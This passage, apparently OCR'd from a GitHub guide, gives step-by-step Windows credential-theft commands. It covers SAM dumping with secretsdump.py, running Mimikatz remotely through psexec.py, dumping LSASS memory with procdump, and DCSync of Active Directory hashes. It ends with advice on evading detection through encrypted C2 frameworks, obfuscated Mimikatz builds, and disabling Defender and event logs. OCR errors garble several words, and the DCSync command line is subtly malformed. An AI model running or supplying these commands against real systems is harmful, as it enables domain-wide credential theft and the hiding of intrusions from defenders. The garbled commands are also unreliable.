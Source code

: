2. Local credential dumping with ``secretdump.py``

```cmd
secretsdump.py -sam TARGET_IP -u Administrator -p Password123
```
3. Execute Mimikatz remotely using impacket's ``psexec.py``

```cmd
psexec.py DOMAIN/Administrator@TARGET_IP -c mimikatz.exe
```

4. Dumb LSASS memory for offline analysis. 

```cmd
procdump -accepteula -ma lsass.exe lsass.dmp
```

Then, transfer the dump file and parse it with Mimikatz

```cmd
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```

5. Dump Active Directory hashes using Impacket(``dcsync``) 

```cmd
wmiexec.py DOMAIN/Administrator@DC_IP "mimikatz.exe 'lsadump::dcsync /domain:DMOAIN.LOCAL /add /csv'"
```

Or Using ``secretsdump.py``


```cmd
secretsdump.py -just-dc DOMAIN/Administrator@DC_IP
```

#### Bypass detection. 

Two bypass detection while using Mimikatz or impacket consider. 

* **Using encrypted C2 channels** tools like Cobalt Strike, Havoc and mythic Provide encrypted command and control channels to evade detection.   
* **Obfuscate Binaries** Use custom or Obfuscate versions of Mimikatz two hour detection. 
* **Disable Windows Defender and event logs.** Temporarily disable security tools and lock services before execution to evade detection. 